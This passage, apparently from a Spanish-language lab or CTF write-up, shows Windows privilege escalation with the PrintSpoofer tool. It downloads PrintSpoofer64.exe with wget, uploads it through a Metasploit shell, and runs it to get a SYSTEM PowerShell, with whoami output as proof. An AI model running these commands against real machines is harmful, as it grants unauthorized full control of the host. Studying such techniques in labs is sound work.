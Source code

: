 Buscando estos privilegios podemos encontrar herramientas que nos puedan escalar, como por ejemplo "PrintSpoofer" que juega con el privilegios de "SeImpersonatePrivilege"

https://github.com/itm4n/PrintSpoofer/tree/master

Vamos para allí!!!

Nos cogemos el programa .exe

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

Una vez descargado, nos vamos a la shell si estamos con metasploit va a ser mucho mas fácil porque podemos subir archivos locales, 

```
upload /root/PrintSpoofer64.exe
```

Nos metemos dentro de la shell de windows y ejecutamos el archivo (una ruta para poder subir archivos "C:\Users\Public"

```
PrintSpoofer64.exe -i -c powershell.exe
```

Si alguien le interesa como funciona realmente este exploit : https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

GG!!! SOMOS ROOT

```
PS C:\Windows\system32> whoami
whoami
nt authority\system
```


